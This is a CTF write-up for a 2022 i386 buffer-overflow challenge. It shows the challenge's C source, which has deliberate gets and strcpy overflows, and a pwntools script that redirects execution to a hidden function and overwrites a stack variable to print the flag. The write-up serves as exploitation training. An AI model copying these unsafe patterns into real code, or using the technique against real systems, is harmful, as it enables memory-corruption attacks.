 ```yaml
---

title: Bof pcc.nccs_final 2022

author: megachar0x01

date: 2022-08-08

categories: [Pwn, i386, ctf]

---
```


### Purpose : Get The Flag



Checking binary security measures.


<img src="https://i.imgur.com/eJF86pP.png" alt="img_1">

Source Code is given. Reading through it we can see that it is checking if the argument passed to binary is equal to 10. If the condition is met will copy the 5th argv to a stack of 10 bytes without checking input which creates a stack-based buffer overflow. Using This vuln be redirected code to strcpp function. now have to modify \_var to 24415 to print the flag which is present on the stack.

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void strcpp() {

	volatile int _var = 25;
	char local_buffer[10];

	printf("I really thought you wouldn't find this :(\n");
	printf("Well, you still need to one more thing before going for the flag\n>> ");

	gets(local_buffer);

	if(_var == 24415) {
		printf("\nYou really are pretty good at this. Here's the flag: ");
		char flag[30];
		FILE* fptr = fopen("flag.txt", "r");

		if (fptr == NULL) {
			printf("\nError reading flag from the file. Please contact TheFlash2k...\n");
			exit(-1);
		}

		fscanf(fptr, "%s", flag);
		printf("%s\n", flag);
		fclose(fptr);
		exit(0);
	}
	exit(1);
}

int main(int argc, char* argv[]) {


	setbuf(stdin, NULL);
	setbuf(stdout, NULL);

	char buffer[50];

	if(argc == 10) {
		strcpy(buffer, argv[5]);
	}

	return 0;
}

```

Now it's time to exploit this binary. 

```python
#!/usr/bin/python3
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
       
        return process([exe] + argv, *a, **kw)

exe = './bof'; elf = context.binary = ELF(exe, checksec=False);exe_rop = ROP(elf,checksec=False)
io = start(["A","A","A","A",b"A"*58+p32(elf.functions.strcpp.address),"A","A","A","A"])
payload = b"B"*10 + p32(0x5f5f)
io.sendlineafter(b">>",payload)
io.interactive()

```

<img src="https://i.imgur.com/zpzmucA.png" alt="img_2">

